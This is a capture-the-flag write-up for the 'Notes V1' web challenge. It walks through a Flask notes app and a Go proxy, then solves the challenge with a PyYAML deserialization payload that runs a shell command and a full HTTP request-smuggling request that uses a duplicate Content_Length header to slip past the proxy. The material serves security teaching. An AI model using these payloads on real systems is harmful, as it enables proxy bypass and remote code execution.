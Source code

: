 # Notes V1

**Description**
  <br>
  Is there more to the Simple Notes app than meets the eye?


**Author:  [L0xm1](https://twitter.com/L0xm1_07)**

**Solution**
<br> 
We are given with a notes-app where we can add notes and edit notes. Lets dive into the source code given.

app.py
```py
from flask import Flask, request, render_template, redirect, url_for
from werkzeug.serving import WSGIRequestHandler
import os 
import yaml
from yaml import *
import uuid
from threading import Thread

app = Flask(__name__)
notes = []


@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        title = request.form['title']
        content = request.form['content']
        note_id = str(uuid.uuid4())
        notes.append({'id': note_id, 'title': title, 'content': content})
        return redirect(url_for('index'))
    else:
        return render_template('index.html', notes=notes)

@app.route('/add_note', methods=['POST'])
def add_note():
    title = request.form['title']
    content = request.form['content']
    note_id = str(uuid.uuid4())
    notes.append({'id': note_id, 'title': title, 'content': content})
    return render_template('index.html', notes=notes)

@app.route('/edit_note/<note_id>', methods=['GET', 'POST'])
def edit_note(note_id):
    note = next((note for note in notes if note['id'] == note_id), None)
    if note:
        if request.method == 'POST':
            title = request.form['title']
            content = request.form['content']
            note['title'] = title
            note['content'] = content
            return redirect(url_for('index'))
        else:
            return render_template('edit.html', note=note)
    else:
        return 'Note not found', 404

@app.route('/admin', methods=['GET'])
def serialize():
    data=request.args.get('data')
    if data:
        deserialized=yaml.load(data,Loader=Loader)
        return deserialized
    else:
        return "No data provided"
    
    
if __name__ == '__main__':
    WSGIRequestHandler.protocol_version = "HTTP/1.1"
    app.run(host='0.0.0.0', port=5000, threaded=True, debug=False)

```

In */admin* endpoint, *yaml.load()* is used which is vulnerable to deserialization vulnerability and a user can get RCE.

We can use the following payload to read the flag.
```yaml
!!python/object/apply:subprocess.check_output
args:
- - cat
  - flag.txt

```

But if we look into the go-proxy code, the */admin* endpoint is prohibitted from accessing.


main.go
```go
package main

import (
	"log"
	"net/http"
	"net/http/httputil"
	"net/url"
)

type loggingResponseWriter struct {
	http.ResponseWriter
}

func (lrw *loggingResponseWriter) Write(b []byte) (int, error) {
	log.Printf("Response Body: %s\n", string(b))
	return lrw.ResponseWriter.Write(b)
}

func loggingHandler(h http.Handler) http.Handler {
	return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
		// log.Printf("Request Headers: %+v\n", r.Header)

		//  Set Connection: keep-alive header in the outgoing request
		//  r.Header.Set("Connection", "keep-alive")

		lrw := &loggingResponseWriter{w}
		h.ServeHTTP(lrw, r)

		// log.Printf("Response Headers: %+v\n", lrw.Header())
	})
}

func main() {
	origin, err := url.Parse("http://localhost:5000")
	if err != nil {
		panic(err)
	}

	proxy := httputil.NewSingleHostReverseProxy(origin)

	http.DefaultTransport.(*http.Transport).MaxIdleConns = 500
	http.DefaultTransport.(*http.Transport).MaxIdleConnsPerHost = 100

	http.Handle("/", loggingHandler(http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
		if r.URL.Path == "/admin" {
			http.Error(w, "Access to /admin is prohibited", http.StatusForbidden)
			return
		}
		proxy.ServeHTTP(w, r)
	})))
	log.Println("Server started at :8000...")
	log.Fatal(http.ListenAndServe(":8000", nil))

}
```

We need to bypass the proxy to reach */admin* endpoint and we can get RCE using yaml deserialization vulnerability.

How will we bypass the proxy?

In Werkzeug, underscores (_) are converted to hyphens (-) and interpreted as such. This means that the *Content_Length* header is treated in the same way as Content-Length. So we can give Content-Length and Content_Length, such that the go-proxy will consider only the first Content-Length header, and Werkzeug will consider the second Content_Length header. We can use this trick to smuggle our request to */admin* endpoint, thus bypassing the proxy. 


Combining everything, we can smuggle our request to /admin endpoint using the following request and get the flag.

```
POST / HTTP/1.1
Host: localhost:8000
Content-Length: 151
Content_Length: 0

GET /admin?data=%21%21python%2Fobject%2Fapply%3Asubprocess.check_output%0Aargs%3A%0A-%20-%20cat%0A%20%20-%20flag.txt HTTP/1.1
Host: localhost:8000

GET / HTTP/1.1
Host: localhost:8000

```

*Flag: `shaktictf{c0ngr4ts_y0u_bypassed_the_proxy}`*  

